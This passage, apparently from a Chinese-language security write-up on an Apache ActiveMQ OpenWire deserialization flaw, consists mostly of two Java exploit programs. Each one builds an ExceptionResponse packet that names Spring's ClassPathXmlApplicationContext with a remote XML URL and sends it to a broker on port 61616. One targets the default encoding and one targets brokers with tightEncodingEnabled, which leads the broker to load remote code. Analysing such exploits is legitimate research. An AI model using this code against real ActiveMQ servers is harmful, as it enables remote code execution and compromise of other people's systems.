 获取到 ExceptionResponse 的 DATA\_STRUCTURE\_TYPE 为 31，整体的协议比较简单，以下为攻击代码。

```plain
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeBoolean(true);
dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeBoolean(true);
dataOutput.writeUTF("http://localhost:8000/abcd");

Socket socket = new Socket("localhost", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```

在看代码中发现 ActiveMQ 中存在一个 tightEncodingEnabled 的配置，启用 tightEncodingEnabled 配置后，ActiveMQ 会使用一种紧凑的消息编码方式，它采用了一些技巧，例如采用更紧凑的数据结构、二进制编码等，以减少消息的大小。

很明显如果目标启用了 tightEncodingEnabled 的话，上面的攻击代码肯定需要修改。经过测试发现默认 Broker 未打开该配置，Consumer 打开该配置。

这里也给出 tightEncodingEnabled 场景下，攻击 Broker 的利用代码

```plain
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

BooleanStream bs = new BooleanStream();
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(false);
bs.writeBoolean(true);
bs.writeBoolean(false);

bs.marshal(dataOutput);

dataOutput.writeUTF("bb");
dataOutput.writeUTF("aa");

dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeUTF("http://localhost:8000/abcd");

bos.flush();

Socket socket =new Socket("127.0.0.1", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```
